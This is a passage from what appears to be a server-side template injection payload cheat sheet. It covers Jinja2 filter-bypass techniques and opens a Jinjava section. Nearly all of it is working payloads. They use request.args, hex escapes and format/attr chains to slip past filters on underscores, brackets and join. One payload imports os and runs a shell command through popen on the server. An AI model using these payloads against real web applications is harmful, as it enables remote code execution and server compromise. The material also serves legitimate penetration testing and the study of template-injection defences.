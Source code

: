 
### Filter bypass

```python
request.__class__
request["__class__"]
```

Bypassing `_`

```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

Bypassing `[` and `]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

Bypassing `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

Bypassing most common filters ('.','_','|join','[',']','mro' and 'base') by https://twitter.com/SecGus:
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

## Jinjava

### Basic injection

```python
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Jinjava is an open source project developped by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)
